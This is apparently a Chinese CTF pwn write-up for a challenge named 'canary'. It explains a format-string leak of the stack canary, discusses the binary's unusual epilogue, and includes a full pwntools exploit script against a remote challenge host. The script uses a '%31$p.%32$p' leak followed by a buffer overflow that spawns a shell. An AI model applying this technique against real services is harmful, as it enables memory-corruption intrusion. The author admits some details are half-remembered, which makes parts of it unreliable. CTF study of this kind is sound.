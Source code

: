 

## 3.canary

观察发现…..这里有格式化字符串漏洞……然后又开了canary,显然可以泄漏canary->栈溢出

需要注意的是

```
.text:08048696                 lea     esp, [ebp-8]
.text:08048699                 pop     ecx
.text:0804869A                 pop     ebx
.text:0804869B                 pop     ebp
.text:0804869C                 lea     esp, [ecx-4]
.text:0804869F                 retn
```

他这里在函数调用结束之后的返回方式与普通的不一样。所以需要自己手动调试一下找ret。

普通的返回方式是

```
leave  -> mov rsp rbp
		  pop rbp
		  
ret	   -> pop rdi
```

在这时ret地址是存在rbp之上的。

而这道题经调试发现,ret存的地址由canary下的值决定,默认是存在old_rbp+0x10的位置上(大概是吧...忘了…自己调试一下就知道了 emm)

于是我们在leak canary的时候应该顺便把canary下的值一起leak出来,在进行溢出的时候都填上,然后覆盖old_rbp+0x10为自己的地址就可以了.



```python
from pwn import *

# s = process("./can4ry")
s = remote('119.23.206.23',10001)
binsh=0x08048750
payload = "%31$p.%32$p"
# gdb.attach(s,"b *0x0804866E")
# raw_input()
s.sendline(payload)
canary = int(s.recv(10),16)
s.recv(1)
stack = int(s.recv(10),16)
print hex(canary)
print hex(stack)
# raw_input()
payload = 'A'*100+p32(canary)+p32(stack)+'A'*8+'B'*0x10+p64(0x08048596)
# print payload
s.sendline(payload)
s.sendline('ls')
s.interactive()
s.recvall()
```
